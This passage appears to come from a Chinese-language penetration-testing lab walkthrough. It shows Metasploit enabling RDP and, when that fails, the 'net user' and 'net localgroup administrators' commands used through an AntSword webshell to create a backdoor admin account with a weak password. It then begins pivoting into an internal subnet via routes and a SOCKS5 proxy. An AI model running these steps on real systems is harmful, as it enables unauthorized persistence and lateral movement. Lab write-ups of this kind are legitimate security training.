 新建账户开启3389 服务

```
启用远程桌面
run post/windows/manage/enable_rdp

run post/windows/manage/enable_rdp USERNAME=admin PASSWORD=123456

建议把用户名换一下
```

![image-20211215132142937](https://gitee.com/xxb667/img/raw/master/img/image-20211215132142937.png)

#### 用户添加失败

添加失败就换另一种方法试试

![image-20211215132525860](https://gitee.com/xxb667/img/raw/master/img/image-20211215132525860.png)

```
#错误代码
Account could not be created
[-] Error:
[*] The following Error was encountered: NameError undefined local variable or method `addusr_out' for #<Msf::Modules::Post__Windows__Manage__Enable_rdp::MetasploitModule:0x00007f577245bb88>
Did you mean?  add_group
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20211215132940_default_192.168.0.4_host.windows.cle_534939.txt

```

#### 去中国蚁剑进行添加

```
net user xxb1 123456/add  #添加用户名和密码
net user xxb1  #使用xxb1用户
net localgroup administrators xxb1  /add #把用户名添加到管理员组
```

![image-20211215134311930](https://gitee.com/xxb667/img/raw/master/img/image-20211215134311930.png)

#### 用MobaXterm进行远程连接

![image-20211215134603362](https://gitee.com/xxb667/img/raw/master/img/image-20211215134603362.png)



### **添加路由、挂Socks5代理**

由于我们要进一步扫描内网主机，但是由于不在一个网段上面，所以扫不到的，只能添加路由挂代理扫描。

- 添加路由的目的是为了让我们的MSF其他模块能访问内网的其他主机



我们知道另外一个网卡的IP是192.168.52.143
